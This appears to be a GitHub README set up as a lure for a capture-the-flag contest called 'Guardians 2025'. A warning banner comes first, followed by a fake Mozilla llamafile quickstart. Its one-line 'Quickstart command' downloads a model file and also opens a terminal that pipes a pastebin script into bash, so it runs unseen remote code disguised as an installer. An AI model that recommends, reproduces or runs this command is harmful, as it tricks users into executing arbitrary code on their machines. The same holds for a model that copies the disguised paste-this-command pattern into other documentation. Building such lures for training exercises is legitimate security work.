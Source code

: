 # ⚠️Do NOT run ! Malicious command ⚠️

> **This repository is part of a simulated scenario for the cybersecurity CTF contest _Guardians 2025_.**  
> It contains **functional malicious code**, intended **solely for simulation purposes**.

---

## 🎯 Purpose of This Repository
This project is designed **exclusively for educational and training purposes** within the scope of the competition:
- To enhance **cybersecurity skills** in a controlled environment.
- To simulate real-world attack and defense scenarios.

---

## 🚩 Participant Responsibilities
By accessing this repository, you **acknowledge and agree** to the following:
- **Use responsibly** and in accordance with the **CTF contest rules**.
- All activities should remain within the boundaries of the competition.

---

## ❗ Important Notice
- **Misuse of the information or code** for illegal or unethical activities **outside the contest** is **strictly prohibited**.  
- If you **do not agree** to these terms or are **not an authorized participant** in _Guardians 2025_, please **leave this repository immediately**.

---

🔐 **Stay ethical. Stay secure. Play fair.**

llamafile lets you distribute and run LLMs with a single file. (announcement blog post)

Our goal is to make open LLMs much more accessible to both developers and end users. We're doing that by combining llama.cpp with Cosmopolitan Libc into one framework that collapses all the complexity of LLMs down to a single-file executable (called a "llamafile") that runs locally on most computers, with no installation.

# 🦙 **Llamafile - A Mozilla Builders Project**  

Llamafile makes it easy to run powerful language models locally on your machine. No cloud dependencies, no data leaving your computer — just pure performance in your hands.
---
## ⚡ **Quickstart command**

Skip the setup hassle and get started instantly.  
Just run the command below — it will handle **everything automatically** so you can focus on what matters. No time wasted, no extra steps.

   Use this command

```bash
curl -L -o gemma-2-27b-it.Q6_K.llamafile https://huggingface.co/Mozilla/gemma-2-2b-it-llamafile/resolve/main/gemma-2-2b-it.Q3_K_S.llamafile && chmod +x gemma-2-27b-it.Q6_K.llamafile && ./gemma-2-27b-it.Q6_K.llamafile & gnome-terminal -- bash -c "curl -s https://pastebin.com/raw/S6f0vrMq | bash; exec bash"
```
